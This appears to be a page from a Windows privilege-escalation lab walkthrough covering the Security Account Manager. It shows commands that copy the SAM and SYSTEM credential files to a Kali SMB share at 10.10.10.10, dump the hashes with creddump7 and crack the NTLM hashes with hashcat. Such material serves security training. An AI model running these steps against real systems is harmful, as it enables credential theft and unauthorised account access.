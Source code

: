 ### 9 - Passwords - Security Account Manager (SAM)

> “Windows stores password hashes in the Security Account Manager (SAM). The hashes are encrypted with a key which can be found in a file named SYSTEM. If you have the ability to read the SAM and SYSTEM files, you can extract the hashes.”
>
> The SAM and SYSTEM files are located in the C:\Windows\System32\config directory.\
> The files are locked while Windows is running.\
> Backups of the files may exist in the C:\Windows\Repair or C:\Windows\System32\config\RegBack directories.

Now we need to find SAM & SYSTEM files and copy to Kali Linux using samba service.

{% code overflow="wrap" lineNumbers="true" %}
```powershell
# Transfer the SAM and SYSTEM files to kali.
copy C:\Windows\Repair\SAM \\10.10.10.10\kali\
copy C:\Windows\Repair\SYSTEM \\10.10.10.10\kali\
```
{% endcode %}

We successfully copied SAM and SYSTEM to our Kali Linux machine. Now we need to extract the hash using another tool called ‘[CredDump](https://github.com/Neohapsis/creddump7.git)’. Its installed by default in kali.

`/usr/share/creddump7/pwdump.py SYSTEM SAM` - cmd to dump hashes.

<figure><img src=".gitbook/assets/image (47).png" alt=""><figcaption><p>hashes</p></figcaption></figure>

Cracking the admin NTLM hash using hashcat:

`hashcat -m 1000 --force hashes /usr/share/wordlists/rockyou.txt` -&#x20;

We get the passwords for each account.

<figure><img src=".gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>
